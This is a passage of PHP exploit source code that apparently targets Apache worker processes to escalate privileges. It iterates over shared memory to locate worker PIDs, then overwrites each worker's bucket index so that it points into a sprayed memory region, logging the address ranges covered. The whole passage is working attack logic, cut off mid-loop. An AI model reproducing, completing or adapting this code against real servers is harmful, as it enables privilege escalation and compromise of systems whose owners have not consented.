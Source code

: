 	# mutex-&gt;meth-&gt;child_init(), which will be called before privileges
	# are dropped.
	# We do this for every worker PID, incrementing the bucket index so that
	# we cover a bigger range.

	o('Iterating in SHM to find PIDs...');

	# Number of bucket indexes covered by our spray
	$spray_nb_buckets = (int) ($spray_size / $size_prefork_child_bucket);
	# Number of bucket indexes covered by our spray and the PS structures
	$total_nb_buckets = $spray_nb_buckets * count($workers_pids);
	# First bucket index to handle
	$bucket_index = $bucket_index_middle - (int) ($total_nb_buckets / 2);

	# Iterate over every process_score structure until we find every PID or
	# we reach the end of the SHM
	for(
		$p = $addresses['shm'][0] + 0x20;
		$p &lt; $addresses['shm'][1] &amp;&amp; count($workers_pids) &gt; 0;
		$p += 0x24
	)
	{
		$l = $p - $address;
		$current_pid = str2ptr($this-&gt;abc, $l, 4);
		o('Got PID: ' . $current_pid);
		# The PID matches one of the workers
		if(in_array($current_pid, $workers_pids))
		{
			unset($workers_pids[$current_pid]);
			o('  PID matches');
			# Update bucket address
			$s_bucket_index = pack('l', $bucket_index);
			$this-&gt;abc[$l + 0x20] = $s_bucket_index[0];
			$this-&gt;abc[$l + 0x21] = $s_bucket_index[1];
			$this-&gt;abc[$l + 0x22] = $s_bucket_index[2];
			$this-&gt;abc[$l + 0x23] = $s_bucket_index[3];
			o('  Changed bucket value to ' . $bucket_index);
			$min = $spray_min - $size_prefork_child_bucket * $bucket_index;
			$max = $spray_max - $size_prefork_child_bucket * $bucket_index;
			o('  Ranges: 0x' . dechex($min) . ' - 0x' . dechex($max));
			# This bucket range is covered, go to the next one
			$bucket_index += $spray_nb_buckets;